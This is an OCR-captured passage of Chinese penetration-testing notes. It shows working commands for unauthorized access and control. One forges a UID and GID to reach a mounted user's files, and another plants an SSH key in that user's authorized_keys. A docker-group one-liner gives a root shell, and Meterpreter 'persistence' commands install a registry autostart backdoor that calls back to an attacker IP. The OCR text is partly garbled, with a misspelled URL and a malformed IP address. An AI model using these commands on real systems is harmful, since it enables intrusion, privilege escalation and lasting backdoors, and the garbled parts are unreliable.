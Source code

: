 ls -la

```
-rw- r-- r-- test 1005 807 Jul 9  2018 .profile
```

伪造 UID, GID

```sh
groupadd -g 1005 peter
adduser peter -uid 1001 -gid 1005
su peter
```

这时可操作文件了。

写入 SSH 公钥进行免登录

```
mkdir .ssh
cat ~/.ssh/id_rsa.pub > mnt/peter/.ssh/authorized_keys
ssh peter@192.168.1.205
```

https://fosterelli.co/brivilege-escalation-via-docker.html
https://github.com/chrisfosterelli/dockerrootplease

如果您恰巧可以访问计算机上的用户帐户,并且该用户是＇docker＇组的成员,则运行以下命令将为您提
供 root shell:

> docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease

## 持久化 - Persistence 模块

Persistence 模块是先上传 vbs 脚本·然后执行 vbs 脚本,
修改注册表 HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 从而完成自后动·

```
run persistence -h
run persistence -U -i 10 -p 4444 -r 192.168.1.227
run persistence -S -U -X -i 5 -p 6666 -r 192.168.1.227
-A: 自动启动一个匹配的漏洞/多/处理程序来连接到代理
-X: 开机启动,注册表位置:HKLM\Software\Microsoft\Windows\CurrentVersion\Run
-U: 当前用户登录后自启动,注册表位置:HKCU\Software\Microsoft\Windows\CurrentVersion\Run
-S: 作为服务启动,注册装位置:HKLM\Software\Microsoft\Windows\CurrentVersion\Run
-T: 选择要使用的可执行模板
-L: 后门传到远程主机的位置默认为%TEMP%
-P: 使用的Payload,默认windows/meterpreter/reverse_tcp,该默认的payload生成的后门为32位程序.
    因此  ,当目标机器为64位系统时,留下的后门将无法运行
-i: 设置反向连接间隔时间,单位为秒;
-p: 设置反向连接的端口号;
-r: 设置反向连接的ip地址.
```

run persistence -S -i 5 -p 23333 -r 192.168.1227 -L C:\\Windows\\System32
该命令脚本注册自启动注册表位置:

> HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
